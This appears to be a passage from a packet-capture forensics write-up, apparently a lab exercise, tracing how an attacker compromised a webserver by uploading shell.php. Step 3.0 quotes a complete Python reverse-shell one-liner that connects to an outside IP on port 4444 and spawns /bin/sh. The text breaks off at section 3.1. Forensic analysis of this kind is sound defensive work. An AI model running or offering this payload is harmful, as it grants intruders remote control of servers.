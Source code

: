 














































| 3.0 |
|----------|
| IP 138.68.92.163  uses POST to push python code at 2022-02-20 02:59:04.17195 |
|  |
| python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.92.163",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Grants the attacker unrestricted command-line access to the webserver |
| File used: phl_webserver.pcap
 
Steps taken: In Wireshark>Display filter
ip.addr == 138.68.92.163 and http.request.method == "POST"


Details: 
HTTP POST request uploaded a malicious script shell.php to /uploads/
Payload executed a reverse shell for remote server control.

Significance: First evidence of active exploitation. |






| 3.1 |
|----------|
| Delivery from the attacker's viewpoint, gathering the vulnerable web server url |
|  |
| File: phl_webserver.pcap
